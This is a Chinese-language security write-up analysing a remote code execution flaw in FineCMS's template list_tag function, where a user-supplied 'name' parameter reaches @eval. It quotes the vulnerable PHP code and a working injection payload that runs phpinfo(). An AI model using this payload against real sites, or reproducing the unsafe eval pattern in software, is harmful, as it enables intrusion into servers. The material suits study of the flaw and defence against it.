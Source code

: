 
```php
if (!$data) {

    // list数据查询
    $data = $this->template->list_tag($param);
    $data['code'] = $data['error'] ? 0 : 1;
    unset($data['sql'], $data['pages']);

    // 缓存数据
    $cache && $this->set_cache_data($cache, $data, $param['cache']);
}
```

我们到`finecms/dayrui/libraries/Template.php`看list_tag函数的代码,代码有点长，我抓重点的地方,这里把`param=action=cache%20name=MEMBER.1%27];phpinfo();$a=[%271`的内容分为两个数组`$var、$val`，这两个数组的内容分别为


```php
$var=['action','name']
$val=['cache%20','MEMBER.1%27];phpinfo();$a=[%271']
```

`$cache=_cache_var`是返回会员的信息 重点的是下面的 `@eval('$data=$cache'.$this->_get_var($_param).';');`


```php
foreach ($params as $t) {
            $var = substr($t, 0, strpos($t, '='));
            $val = substr($t, strpos($t, '=') + 1);
```

再看这一段,因为swtich选中的是cache，所有就不再进行下面的分析了。 `$pos = strpos($param['name'], '.');`这句是为下面的substr函数做准备。 是为了分离出的内容为


```php
$_name='MEMBER'
$_param="1%27];phpinfo();$a=[%271"
// action
        switch ($system['action']) {

            case 'cache': // 系统缓存数据
                if (!isset($param['name'])) {
                    return $this->_return($system['return'], 'name参数不存在');
                }

                $pos = strpos($param['name'], '.');
                if ($pos !== FALSE) {
                    $_name = substr($param['name'], 0, $pos);
                    $_param = substr($param['name'], $pos + 1);
                } else {
                    $_name = $param['name'];
                    $_param = NULL;
                }
                $cache = $this->_cache_var($_name, !$system['site'] ? SITE_ID : $system['site']);
                if (!$cache) {
                    return $this->_return($system['return'], "缓存({$_name})不存在，请在后台更新缓存");
                }
                if ($_param) {
                    $data = array();
                    @eval('$data=$cache'.$this->_get_var($_param).';');
                    if (!$data) {
                        return $this->_return($system['return'], "缓存({$_name})参数不存在!!");
                    }
                } else {
                    $data = $cache;
                }

```